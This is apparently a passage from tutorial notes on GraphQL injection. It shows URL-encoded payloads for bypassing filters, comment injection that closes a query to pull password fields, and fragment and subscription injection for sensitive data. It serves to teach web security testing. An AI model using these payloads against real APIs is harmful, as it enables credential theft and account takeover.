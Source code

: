 **Impact**: Account takeover, privilege escalation

---

## Advanced Techniques

### 1. Using URL Encoding to Bypass Filters

**Problem**: Special characters blocked

**Solution**: URL encode the injection

```
# Instead of: id=123) { email
# Use: id=123%29%20%7B%20email
```

**From video**: "Adding a URL encoded hashtag to close out the remaining part of the query"

### 2. Comment Injection to Close Queries

```graphql
# Inject: 123) { password } #

Becomes:
query {
  user(id: 123) {
    password
  } # original query commented out
}
```

### 3. Fragment Injection

**GraphQL Fragments**:
```graphql
fragment userFields on User {
  id
  email
  password
}

query {
  user(id: 123) {
    ...userFields
  }
}
```

**Injection**: Try to inject custom fragments to access more data

### 4. Subscription Injection

**GraphQL Subscriptions** (WebSocket-based real-time updates):
```graphql
subscription {
  userUpdated(id: 123) {
    email
    password  # Try to inject sensitive fields
  }
}
```
